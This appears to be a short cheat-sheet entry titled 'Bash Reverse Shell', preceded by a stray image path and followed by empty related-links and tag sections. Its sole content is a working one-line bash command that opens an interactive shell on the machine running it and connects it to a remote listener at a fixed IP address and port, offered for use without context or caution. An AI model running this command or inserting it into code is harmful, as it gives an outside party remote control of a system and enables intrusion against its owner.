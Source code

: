 # Bash Reverse Shell
```
/bin/bash -i >& /dev/tcp/192.168.0.1/4433 0>&1
```

# Related


Tags:

    #assorted
